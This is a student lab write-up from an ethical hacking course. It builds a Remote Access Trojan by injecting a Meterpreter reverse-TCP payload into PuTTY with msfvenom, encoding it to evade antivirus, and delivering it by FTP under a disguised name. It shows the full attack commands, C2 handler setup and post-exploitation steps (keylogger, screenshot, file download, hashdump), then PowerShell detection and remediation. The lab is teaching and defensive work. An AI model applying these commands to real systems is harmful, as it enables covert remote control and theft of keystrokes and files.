





<div align="center">

# Metasploit RAT — Deployment & Incident Response
### CySA+ Lab · Ethical Hacking · CIS196 · Cypress College

[]()
[]()
[]()

</div>

---

## Overview

```text
Objective  : Create and deploy a RAT, establish C2 access, then detect and kill it via IR
Environment: Kali Linux (attacker) · WinClient (victim) · Ubuntu · Windows 2012 R2
Network    : 192.168.1.0/24 — LAN-only segmented lab environment
Date       : October 7, 2023
Course     : CIS196 Ethical Hacking (CySA+ aligned) — Cypress College
```

This lab covers both sides of a Remote Access Trojan attack — offensive deployment and defensive incident response. Using the Metasploit framework and MSFVenom, a trojan was injected into a legitimate executable and delivered to a victim machine via FTP. A Meterpreter session was then established for post-exploitation. In the final phase, the perspective switches to the defender — using PowerShell to detect the active C2 connection, identify the malicious process, and terminate it.

---

## Lab Environment

| Machine | Role | IP |
|---|---|---|
| Kali Linux | Attacker — payload creation, C2 server, Meterpreter control | 192.168.1.3 |
| WinClient | Victim — target of the RAT deployment | 192.168.1.5 |
| Ubuntu | Supporting server | 192.168.1.4 |
| Windows 2012 R2 | Domain controller | 192.168.1.2 |

---

## What is a Remote Access Trojan?

A Remote Access Trojan (RAT) is malicious software that secretly infiltrates a victim machine and opens a persistent backdoor for an attacker. Key behaviors:

| Phase | What happens |
|---|---|
| **Infection** | Delivered via phishing, software vulnerability, or social engineering |
| **Persistence** | Ensures presence on the system even after reboots |
| **Communication** | Connects outbound to an attacker-controlled C2 server |
| **Control** | Attacker sends commands — steal data, capture keystrokes, take screenshots |
| **Exfiltration** | Sensitive data sent back to the attacker |
| **Lateral movement** | RAT may deliver additional malware or pivot to other systems |

The outbound connection model (reverse TCP) is particularly dangerous because it bypasses inbound firewall rules — the victim machine initiates the connection to the attacker, not the other way around.

---

## What is MSFVenom?

MSFVenom is Metasploit's payload generator and encoder. It creates malicious payloads in various formats — executables, scripts, shellcode — that can be embedded into legitimate files. The `meterpreter_reverse_tcp` payload establishes a reverse TCP shell: once executed on the victim, it calls back to the attacker's C2 server and opens a fully interactive session.

---

## What is a C2 Server?

A Command and Control (C2) server is the attacker's remote hub for managing compromised machines. Once a RAT connects back, the attacker can issue commands, exfiltrate data, deploy additional malware, and maintain persistent access. In this lab, Metasploit's `exploit/multi/handler` serves as the C2 listener.

---

## Attack Chain

### Phase 1 — Payload Creation with MSFVenom

Used MSFVenom on Kali to inject a `meterpreter_reverse_tcp` payload into `puttyA.exe` — a legitimate SSH client — creating a trojanized executable called `puttyTrojan.exe`. The encoder `x64/zutto_dekiru` was applied across 3 iterations to obfuscate the payload from antivirus detection.

```bash
msfvenom -a x64 --platform windows \
  -p windows/x64/meterpreter_reverse_tcp \
  -e x64/zutto_dekiru -i 3 \
  -f exe -x puttyA.exe \
  -o puttyTrojan.exe \
  LHOST=192.168.1.3 LPORT=5000
```



The final trojanized file is 1,073,664 bytes. When executed by the victim, it runs the original PuTTY application normally — while simultaneously establishing a backdoor connection to the attacker.

---

### Phase 2 — C2 Server Setup

Launched Metasploit's `multi/handler` on Kali to listen for the reverse TCP callback from the victim machine.

```bash
msfdb start
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf exploit(multi/handler) > set LHOST 192.168.1.3
msf exploit(multi/handler) > set LPORT 5000
msf exploit(multi/handler) > run
```



The handler is now waiting. Any machine that executes the trojan will automatically connect back here and open a Meterpreter session.

---

### Phase 3 — Delivery via FTP

Transferred `puttyTrojan.exe` to the victim's FTP server (WinClient — 192.168.1.5) using command-line FTP, renaming it `putty.exe` to disguise its malicious nature:

```bash
ftp 192.168.1.5 21
ftp> binary
ftp> put puttyTrojan.exe putty.exe
# 1,077,285 bytes sent — Transfer complete
```

Once the victim double-clicks the file from `C:\FTP\putty.exe`, the Meterpreter session opens on the attacker's C2.

---

### Phase 4 — Post-Exploitation

With an active Meterpreter session, the following actions were performed on the victim machine:

```bash
# Migrate into explorer.exe to persist even if victim closes PuTTY
meterpreter> migrate -N explorer.exe

# Check current user context
meterpreter> getuid
# Server username: CYSA\student

# Take a silent screenshot of the victim's desktop
meterpreter> screenshot

# Start keylogger
meterpreter> keyscan_start

# Download a file from the victim
meterpreter> download C:/users/student/documents/Labdownload.txt

# Attempt credential dump (failed — insufficient privileges)
meterpreter> run post/windows/gather/hashdump
```



The hashdump failed because the student account lacked SYSTEM-level privileges. This is a realistic outcome — privilege escalation would be the next step in a real attack.

---

## Incident Response — Defender Perspective

### Phase 5 — Detect the C2 Connection via PowerShell

Switched to WinClient and used PowerShell to identify active connections back to the attacker:

```powershell
Get-NetTCPConnection -RemoteAddress 192.168.1.3 | Format-List
```



The output reveals the full picture: local port, remote C2 address and port, connection state (Established), and critically — the **OwningProcess ID**. This process ID is the key to finding and killing the malicious connection.

```powershell
# Identify the process
Get-Process -Id 4668 | Format-List *
# Path: C:\FTP\putty.exe  ← confirms the trojan location
```

---

### Phase 6 — Kill the Process, Close the Session

```powershell
Kill 4668
# Confirm: Y
```



Killing the process immediately terminated the Meterpreter session on the attacker's side — confirmed by `Meterpreter session closed. Reason: Died` appearing in the Kali terminal.

---

## Key Findings

| Phase | Action | Outcome |
|---|---|---|
| Payload creation | MSFVenom injected into puttyA.exe | puttyTrojan.exe — 1,073,664 bytes |
| C2 setup | multi/handler listening on port 5000 | Reverse TCP handler active |
| Delivery | FTP transfer to C:\FTP\putty.exe | Trojan deployed, disguised as PuTTY |
| Post-exploitation | migrate, screenshot, keylogger, download | Full victim control established |
| Hashdump | run post/windows/gather/hashdump | Failed — insufficient privileges |
| Detection | Get-NetTCPConnection | C2 connection and process ID identified |
| Remediation | Kill process 4668 | Meterpreter session terminated |

---

## PowerShell in Incident Response

PowerShell is one of the most powerful tools available to a Windows IR analyst. In this lab it was used to:

- **Enumerate active TCP connections** — `Get-NetTCPConnection` shows all connections including remote IP, port, state, and the owning process ID
- **Identify the malicious process** — `Get-Process -Id <PID> | Format-List *` reveals the full file path, confirming the trojan's location
- **Terminate the session** — `Kill <PID>` ends the process and immediately severs the C2 connection

This is the same workflow a real SOC analyst would use during an active incident — identify the suspicious outbound connection, trace it to a process, confirm the file path, and kill it.

---

## Concepts Demonstrated

- Remote Access Trojan architecture and reverse TCP connection model
- MSFVenom payload generation and executable injection
- Encoder usage for AV evasion (`x64/zutto_dekiru`)
- Metasploit `multi/handler` C2 server configuration
- FTP-based trojan delivery and social engineering via filename disguise
- Meterpreter post-exploitation: process migration, keylogging, screenshot, file download
- Privilege escalation limitations — hashdump without SYSTEM context
- PowerShell-based incident response: TCP connection enumeration and process termination
- Full attack lifecycle — from payload creation to session termination

---

## What I'd Do Differently in Production

**Endpoint Detection and Response (EDR).** A modern EDR solution would flag MSFVenom-generated payloads at the point of execution — even with encoding, behavioral analysis detects the reverse shell callback pattern.

**Network monitoring.** An outbound connection from `C:\FTP\putty.exe` to an internal IP on a non-standard port (5000) should trigger an alert in any decent SIEM. This is an obvious IOC.

**FTP hardening.** Anonymous or weakly authenticated FTP servers are an easy delivery vector. In production, FTP should be replaced with SFTP, access restricted by IP, and all file transfers logged.

**Least privilege.** The hashdump failed because the student account lacked admin rights. This is correct — least privilege limits what an attacker can do even after gaining a foothold.

**Process whitelisting.** Application control tools like AppLocker or Windows Defender Application Control would prevent `putty.exe` in `C:\FTP` from executing in the first place.

---

## Related

[](https://github.com/Mvrcoz)
[](https://tryhackme.com/p/Marcoz)
[](https://www.linkedin.com/in/marcoz-tech/)]

`metasploit` `msfvenom` `meterpreter` `rat` `incident-response` `powershell` `kali-linux` `ethical-hacking` `cysa-plus` `cybersecurity`
